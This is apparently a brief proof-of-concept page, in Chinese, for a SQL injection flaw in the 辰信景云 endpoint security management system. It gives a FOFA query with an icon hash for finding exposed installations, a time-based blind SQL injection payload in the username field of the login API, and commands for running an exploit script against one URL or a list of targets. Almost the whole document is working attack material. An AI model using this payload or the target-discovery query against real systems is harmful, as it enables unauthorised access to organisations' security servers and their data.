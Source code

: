 FOFA:

```markdown
"辰信景云终端安全管理系统" && icon_hash="-429260979"
```

payload

```markdown
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

命令

```markdown
python3 辰信景云终端安全管理系统存在sql注入漏洞.py -u url
python3 辰信景云终端安全管理系统存在sql注入漏洞.py -f url.txt
```

